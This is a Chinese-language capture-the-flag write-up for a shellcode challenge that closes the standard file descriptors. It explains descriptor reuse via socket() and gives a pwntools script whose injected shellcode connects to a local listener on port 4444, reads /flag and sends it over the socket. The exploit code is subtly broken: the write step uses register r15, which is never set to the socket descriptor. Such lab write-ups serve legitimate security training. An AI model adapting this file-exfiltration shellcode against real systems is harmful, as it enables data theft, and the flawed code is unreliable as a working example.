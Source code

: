 # 挑战简介
```
这项挑战即将关闭 stdin，这意味着传递第 2 阶段 shellcode 将更加困难。您需要
找到替代解决方案（例如在内存中解包 shellcode）以绕过复杂的过滤器。

这项挑战即将关闭 stderr，这意味着您将无法使用文件描述符 2 进行输出。

这项挑战即将关闭 stdout，这意味着您将无法使用文件描述符 1 进行输出。您将
看不到进一步的输出，并且需要找到另一种将数据传回给您自己的方法。
```

# 思路
stdin,stdout,stderr都是Linux最标准的文件描述符,许多的指令调用中,文件描述符也是必不可少的存在,也就是我们常说的rdi(unsigned int fd)片段  
这个挑战禁用了标准文件描述符  

**我们能用什么?**  
首先我们要认识一些能够直接与内核交互的,独立的,能够自己创建新的文件描述符的一些系统调用,这次的主角是**socket**  
**为什么socket可以绕过标准文件描述符?**
1. 描述符表的动态分配  
即使标准描述符（0、1、2）被关闭，文件描述符表本身依然存在，并且可以继续分配新的描述符。内核只关心该表中的哪些位是未使用的，而不关心之前是否有描述符被关闭。

2. 最小可用描述符策略  
find_next_zero_bit()函数从指定的起始点（通常是0）开始搜索第一个未使用的位。这意味着如果描述符0、1、2都被关闭，那么socket()调用将返回描述符0，因为它是第一个可用的。

3. 描述符的独立性  
每个文件描述符都是独立的实体，指向各自的file结构。关闭一个描述符不会影响其他描述符的功能，只会将其从文件描述符表中移除并标记为可用。
```
+---+    +---+    +---+
| 0 | -> |   |    | S | (新分配的socket)
+---+    +---+    +---+
| 1 | -> |   |    | X | (仍然可用)
+---+    +---+    +---+
| 2 | -> |   |    | X | (仍然可用)
+---+    +---+    +---+
| 3 | -> |   |    |   | (可能被其他打开的文件使用)
+---+    +---+    +---+
  .        .        .
  .        .        .
```
也就是说,用socket,将会新分配文件描述符,即便不可用,再新分配后依然可用  

---
所以我们的策略是,利用socket套接字后,再与本机进行connect连接,后面的操作还是基本的三件套  
```
#!/usr/bin/python
from pwn import *
import struct
import os
cache_dir = '/tmp/.pwntools-cache'
if not os.path.exists(cache_dir):
    os.makedirs(cache_dir)

context(os='linux', arch='amd64', log_level='debug', cache_dir=cache_dir)

# 首先在本地开启一个监听端口
l = listen(4444)

p = process('/challenge/babyshell-level-7')

p.recvuntil('Reading 0x4000 bytes from stdin.\n')

# 修改的shellcode：使用网络连接发送flag内容
shellcode = asm('''
    /* socket(AF_INET, SOCK_STREAM, 0) */
    mov rax, 41
    mov rdi, 2
    mov rsi, 1
    mov rdx, 0
    syscall
    
    /* 保存socket文件描述符 */
    mov rdi, rax
    
    /* 准备struct sockaddr_in */
    sub rsp, 16

    mov word ptr [rsp], 2
    mov word ptr [rsp+2], 0x5c11
    mov word ptr [rsp+4], 0
    mov rsi, rsp
    
    /* connect(sockfd, addr, addrlen) */
    mov rax, 42      /* connect系统调用号 */
    mov rdx, 16      /* addrlen */
    syscall
    
    /* open("/flag", O_RDONLY) */
    mov rax, 2       /* open系统调用号 */
    lea rsi, [rip+flag]
    mov rdi, rsi
    mov rsi, 0       /* O_RDONLY */
    syscall
    
    /* 保存flag文件描述符 */
    mov r8, rax
    
    /* read(flag_fd, buffer, 100) */
    mov rax, 0       /* read系统调用号 */
    mov rdi, r8      /* flag文件描述符 */
    sub rsp, 100     /* 为buffer分配空间 */
    mov rsi, rsp     /* buffer地址 */
    mov rdx, 100     /* 读取大小 */
    syscall
    
    /* write(sockfd, buffer, bytes_read) */
    mov rdx, rax     /* 实际读取的字节数 */
    mov rax, 1       /* write系统调用号 */
    mov rdi, r15     /* socket文件描述符 */
    /* rsi仍然指向buffer */
    syscall
    
    /* 退出程序 */
    mov rax, 60      /* exit系统调用号 */
    xor rdi, rdi
    syscall
    
flag:
    .string "/flag"
''')

print("Shellcode十六进制:", shellcode.hex())
print("Shellcode长度:", len(shellcode), "字节")

p.send(shellcode)

# 等待连接并接收flag
conn = l.wait_for_connection()
flag = conn.recvline()
print("获取到的flag:", flag.decode())

# 与shell交互
p.interactive()
```
